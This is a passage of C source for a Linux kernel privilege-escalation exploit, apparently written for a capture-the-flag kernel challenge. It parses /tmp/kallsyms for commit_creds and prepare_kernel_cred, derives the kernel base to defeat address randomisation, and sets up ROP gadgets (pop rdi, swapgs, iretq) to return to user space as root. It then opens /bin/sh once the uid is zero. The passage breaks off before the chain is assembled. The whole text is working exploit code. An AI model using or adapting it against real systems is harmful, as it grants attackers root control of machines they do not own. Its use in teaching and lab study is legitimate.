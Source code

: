 ```c
		"pushf;"
		"pop user_rflags"
	);
}

void GetShell() 
{
    if (!getuid())
    {
        system("/bin/sh");
    }
    else 
    {
        puts("[-] CAN NOT GETSHELL.");
        exit(1);
    }
}

int find_symbols()
{
	char *ptr;
	char buf[0x40];
	FILE* fd = fopen("/tmp/kallsyms","r");
	if(!fd)
	{
		printf("[-] Open /tmp/kallsyms ERROR.\n");
		return 0;
	}
	while(fgets(buf,sizeof(buf),fd))
	{
		if(commit_creds_addr && prepare_kernel_cred_addr)
			return 1;
		if (strstr(buf, "commit_creds")) 
		{
            commit_creds_addr = strtoull(buf, &ptr, 16);
			printf("[+] Find: commit_creds: 0x%llx\n",commit_creds_addr);
        }
        if (strstr(buf, "prepare_kernel_cred")) 
		{
            prepare_kernel_cred_addr = strtoull(buf, &ptr, 16);
			printf("[+] Find: prepare_kernel_cred: 0x%llx\n",prepare_kernel_cred_addr);
        }
	}
	return 0;
}

int main()
{
    save_status();
	int f=find_symbols();
	if(!f)
	{
		printf("[-]Find Symbols ERROR.\n");
		exit(0);
	}
	
	vmlinux_base = commit_creds_addr - 0x9c8e0;
	size_t offset = vmlinux_base - raw_vmlinux_base;
	size_t pop_rdi = 0xffffffff81000b2f + offset;	//pop rdi; ret;
	size_t pop_rdx = 0xffffffff810a0f49 + offset;	//pop rdx; ret;
	size_t mov_rdi = 0xffffffff8106a6d2 + offset;	//mov rdi, rax; jmp rdx;
	size_t swapgs = 0xffffffff81a012da + offset;	//swapgs; popfq; ret;
	size_t iretq = 0xffffffff81050ac2 + offset;     //iretq; ret;
```